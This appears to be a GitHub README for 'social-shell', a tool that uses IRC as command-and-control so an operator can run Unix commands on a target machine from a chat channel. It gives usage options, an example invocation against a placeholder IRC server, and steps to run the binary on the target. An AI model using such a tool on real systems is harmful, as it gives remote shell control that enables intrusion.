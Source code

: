 # social-shell
A binary to chat with your unix shells on IRC, a binary to utilize IRC software as C2.<br>
Orignally made by [Aalekh Motani](https://github.com/aalekh-ul).<br>

**Usage:**<br>
To get the help menu: <code> ./ircshell -h </code>.<br> 
<br>
**All options**: <code>./ircshell -s [IRC server ip or domain] -c [channel to join] -u [username to join with] -a [username you have to join with ircclients, user who is waiting for output]</code>.<br>
<br>
**Example**: <code>./ircshell -s irc.fakeserver.chat -c fakechannel -u johndoe -a eviljohndoe </code>.<br>
<br>
***Here I am using my own IRC server***

**Step1**:  Join a channel on IRC client. The username you provide here is the username you have to pass to -a switch and channel to -c switch.<br>
![image](https://github.com/aalekh-ul/social-shell/assets/57952558/56ba1bdb-a2c7-4088-bb69-380335a3295a)<br>
![image](https://github.com/aalekh-ul/social-shell/assets/57952558/3be43c0d-a317-4a1e-bd75-9a746bf7f6d3)<br>
<br>
<br>
**Step2**: run the binary on target.<br>
![image](https://github.com/aalekh-ul/social-shell/assets/57952558/96511953-5991-4b36-81f8-8e569e968fa2)<br>
<br>
<br>
**Step3**: run the unix command you like from the chat.<r>
![image](https://github.com/aalekh-ul/social-shell/assets/57952558/6b716d35-b4cd-488f-b2e4-b7bb931f105f)<br>
![image](https://github.com/aalekh-ul/social-shell/assets/57952558/9de24fbb-b4a2-44ed-a34d-f40fcae05063)





**License**
**GPLv3+:** GNU GPL version 3 or later https://gnu.org/licenses/gpl.html

This is free software: you are free to change and redistribute it.<br>



